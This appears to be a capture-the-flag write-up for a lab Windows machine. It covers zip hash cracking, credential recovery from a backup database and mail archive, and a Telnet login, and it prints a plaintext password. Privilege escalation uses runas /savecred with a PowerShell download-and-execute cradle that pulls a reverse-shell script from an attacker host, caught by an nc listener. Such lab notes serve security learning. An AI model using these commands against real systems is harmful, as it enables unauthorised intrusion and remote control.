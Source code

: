 ![](./logo.png)

# USER
Gobuster wildcard response found:

http://10.10.10.96/a1f3d8cd-3e99-428d-9c15-741636949ce

Unzipping a Password Protected File and Error: unsupported compression method 99

```
Requires "p7zip"
```

Tried cracking using john the ripper

```
zip2john <file.zip> > hash.txt
john --format=zip hash.txt
```

Found that using TRACE on a HTTP server can lead to Cross-Site Tracing attacks XST

```
But NMAP was wrong, the HTTP server rejects TRACE commands
```

Found a password to the zip file in the backup.mdb by usings strings

Found a tool called "readpst"

Converted the file to mbox and found details:

```
john@megacorp.com
security@accesscontrolsystems.com

4Cc3ssC0ntr0ller
```

Trying the different permutations give login:

```
security
4Cc3ssC0ntr0ller
```

On the 10.10.10.98 Telnet server. This provides access to the command line


# ROOT

CMDKEY shows the saved credenials of a user

This means, I think we can use the

```
runas \savecred"
```

Command to run root commands

By running a reverse shell as the admin, we could get priv esc


You need a web server for the payload download

```
python2 -m SimpleHttpServer
```

The listener for the reverse shell

```
nc -lvnp <PORT IN THE SCRIPT>
```


And the command run on the user to download the shell

```
powershell IEX (New-Object Net.WebClient).DownloadString('http://<ip_of_SimpleHttpServer/rv.ps1')
```

In total the command below ran the shell as admin

```
runas /savecred /user:ACCESS\Administrator "powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.16/rv.ps1')"
```

This provided us with a root shell
